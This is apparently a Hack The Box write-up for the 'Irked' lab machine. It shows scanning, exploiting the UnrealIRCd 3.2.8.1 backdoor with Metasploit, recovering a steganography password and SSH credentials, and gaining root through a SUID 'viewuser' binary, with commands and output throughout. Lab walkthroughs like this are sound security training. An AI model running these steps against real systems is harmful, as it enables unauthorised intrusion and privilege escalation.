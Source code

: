 ![Pasted image 20230720161816](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/3129a024-7047-4417-a1c2-27e7f98a6051)

# Enumeration

```nmap
Nmap scan report for 10.129.161.245
Host is up (0.010s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a5df5bdcf8378b675319bdc79c5fdad (DSA)
|   2048 752e66bfb93cccf77e848a8bf0810233 (RSA)
|   256 c8a3a25e349ac49b9053f750bfea253b (ECDSA)
|_  256 8d1b43c7d01a4c05cf82edc10163a20c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          39558/udp   status
|   100024  1          42014/tcp6  status
|   100024  1          47508/udp6  status
|_  100024  1          48637/tcp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
48637/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 21:25
Completed NSE at 21:25, 0.00s elapsed
Initiating NSE at 21:25
Completed NSE at 21:25, 0.00s elapsed
Initiating NSE at 21:25
Completed NSE at 21:25, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 185.02 seconds

```
There is a lot of strange ports here. 
Web page shows just a face and "IRC is almost working!"
The nmap scan mentioned IRC ports. I'll check those out...
ports 8067 and 65534 show the same thing:
```
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
:irked.htb 451 GET :You have not registered
:irked.htb 451 Host: :You have not registered
:irked.htb 451 User-Agent: :You have not registered
:irked.htb 451 Accept: :You have not registered
:irked.htb 451 Accept-Language: :You have not registered
:irked.htb 451 Accept-Encoding: :You have not registered
:irked.htb 451 DNT: :You have not registered
:irked.htb 451 Connection: :You have not registered
:irked.htb 451 Upgrade-Insecure-Requests: :You have not registered
:irked.htb 451 Sec-GPC: :You have not registered
ERROR :Closing Link: [10.10.14.75] (Ping timeout)
```
So that's fun... Might need to join with a real irc client. 

# Foothold

Digging around, I found an IRC client I can use via commandline called `irssi`
After installing it, I can try and connect to the IRC channel ports listed... 

`irssi -c 10.129.161.245 --port 8067`

![Pasted image 20230720163633](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/f37d8197-22e9-46cd-bde3-5b3e76d07e83)

I can see that we are running unreal3.2.8.1
Searching online shows there is a metasploit module for it. 
Running metasploit:
```
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> run

[*] 10.129.161.245:65534 - Connected to 10.129.161.245:65534...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.129.161.245:65534 - Sending backdoor command...
[*] Started bind TCP handler against 10.129.161.245:4444
whoami
[*] Command shell session 1 opened (10.10.14.75:46617 -> 10.129.161.245:4444) at 2023-07-20 21:44:32 +0100

ircd
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```
So that's cool!
I decided to spawn a reverse shell using netcat because I couldn't navigate directories in metasploit. 

# Escalation (lateral movement)
I can see that there is a user flag in the home directory for djmardov, but I can't read it. I probably need to get that user next. I can view their directory and see what's in it, though:
```
ircd@irked:/home/djmardov/Documents$ ls -la
total 12
drwxr-xr-x  2 djmardov djmardov 4096 Sep  5  2022 .
drwxr-xr-x 18 djmardov djmardov 4096 Sep  5  2022 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
lrwxrwxrwx  1 root     root       23 Sep  5  2022 user.txt -> /home/djmardov/user.txt
ircd@irked:/home/djmardov/Documents$
```
There's a hidden backup file that I can read, which is cool. Let's try that!
```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
I don't think they mean stegosaurus. Most likely steganogrophy which means they hid something in an image somewhere. The only image I can find is the one on the web page so I'll dig through that... 
There's a tool called `stegcracker` that might work:
```
─[us-dedivip-1]─[10.10.14.75]─[htb-th1stle@htb-6v2z1kwcbf]─[~]
└──╼ [★]$ stegcracker irked.jpg steg.txt 
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2023 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

Counting lines in wordlist..
Attacking file 'irked.jpg' with wordlist 'steg.txt'..
Successfully cracked file with password: UPupDOWNdownLRlrBAbaSSss
Tried 1 passwords
Your file has been written to: irked.jpg.out
UPupDOWNdownLRlrBAbaSSss
┌─[us-dedivip-1]─[10.10.14.75]─[htb-th1stle@htb-6v2z1kwcbf]─[~]
└──╼ [★]$ cat irked.jpg.out 
Kab6h+m+bbp2J:HG
```
Looks like I cracked the password!
Let's see if that's the ssh login for the user:
```
$ ssh djmardov@10.129.162.98
djmardov@10.129.162.98's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
djmardov@irked:~$ whoami && id
djmardov
uid=1000(djmardov) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
djmardov@irked:~$
```
And there we go!

```
djmardov : Kab6h+m+bbp2J:HG
```

# Escalation (root)
I'll start with [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and see what it finds...
Lots of info, but one thing does stick out:
![Pasted image 20230721111137](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/7d31c8d0-179b-4204-8c61-560febebf184)

Not sure what viewuser is... 
After playing with it, it is running as root, and reading from a file I made called 'listusers' and this is the output:
```
djmardov@irked:/tmp$ cat listusers 
hackerman was here!
root

id
djmardov@irked:/tmp$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Jul 21 10:34 (:0)
djmardov pts/1        Jul 21 10:56 (10.10.14.75)
/tmp/listusers: 1: /tmp/listusers: hackerman: not found
/tmp/listusers: 2: /tmp/listusers: root: not found
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
djmardov@irked:/tmp$
```
It's only reading one line at a time and only running the first command... The `id` command is running as root so I can totally do stuff... 
Since it's running one command word at a time... can I to just use `sh`?
```
djmardov@irked:/tmp$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Jul 21 10:34 (:0)
djmardov pts/1        Jul 21 10:56 (10.10.14.75)
# whoami
root
# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```
Irked has been PWNED!
